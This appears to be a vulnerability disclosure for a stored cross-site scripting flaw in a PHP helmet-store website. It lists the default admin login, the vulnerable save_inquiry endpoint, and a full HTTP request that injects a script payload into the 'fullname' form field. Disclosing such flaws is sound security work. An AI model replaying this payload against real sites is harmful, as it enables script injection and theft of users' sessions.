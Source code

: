 # Helmet Store Showroom Site System - XSS

A vulnerability classified as problematic was found in Helmet Store Showroom Site System. This vulnerability affects $fullname code. The manipulation of the argument /classes/Master.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/classes/Master.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Master.php has XSS

> Payload: <sCrIpT>alert(1)</ScRiPt>

XSS because $fullname can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/8.png)

## Payload

```s
POST http://localhost/CVE/hss/classes/Master.php?f=save_inquiry HTTP/1.1
Host: localhost
Content-Length: 646
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3B4Pe4WANXKPwFN1
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/?page=view_product&id=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="id"


------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="helmet_id"

3
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="fullname"

111<sCrIpT>alert(1)</ScRiPt>
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="email"

11@QQ.COM
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="contact"

11
------WebKitFormBoundary3B4Pe4WANXKPwFN1
Content-Disposition: form-data; name="message"

11
------WebKitFormBoundary3B4Pe4WANXKPwFN1--
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/9.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/10.png)

